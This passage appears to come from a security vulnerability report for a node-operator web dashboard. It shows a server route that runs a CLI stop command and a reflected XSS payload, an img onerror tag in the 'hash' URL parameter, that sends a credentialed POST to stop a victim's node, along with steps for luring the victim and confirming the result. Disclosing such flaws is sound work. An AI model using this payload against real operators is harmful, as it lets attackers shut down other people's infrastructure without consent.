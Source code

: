  If  there are  errors then you can skip this step and use a random node to confirm XSS (the nodes are running on localhost:9001-localhost:9010) instead.

Now, we will request this route from `api/handlers/node.ts`using an XSS attack:

```js
  apiRouter.post('/node/stop', asyncRouteHandler(async (req: Request, res: Response) => {
    // Exec the CLI validator stop command
    console.log('executing operator-cli stop...');
    execFileSync('operator-cli', ['stop', '-f'])
    res.status(200).json({status: "ok"})
  }));
```

To stop the node we just have to execute a POST request to `/api/node/stop` (with cookies). To do so we can use the following js command: 

`fetch("https://localhost:8080/api/node/stop", {"credentials":"include","method":"post"}) `

So if we trick the victim to open our site or the link with the payload directly, we will be able to stop the node.

Open `http://localhost:9000/validator-list?hash=<img src=x onerror='fetch("https://localhost:8080/api/node/stop", {"credentials":"include","method":"post"}) '>`
**you may want to use a different port like 9001-9010 if operator-cli wasn't able to start the node correctly**

If there was a running node on localhost:9000, it's now stopped.

If a node on localhost:9000 wasn't running, you can still confirm that the XSS attack worked. While we can't read the body, we still can be assured that the request pass through.  In the console we can see that the request returned status code: 200 - `Cross-Origin Request Blocked: The Same Origin Policy disallows reading the remote resource at https://localhost:8080/api/node/stop. (Reason: CORS header ‘Access-Control-Allow-Origin’ missing). Status code: 200` 
In the proxy, for example burp, we can see that the request successfully executed as well (see screenshot)

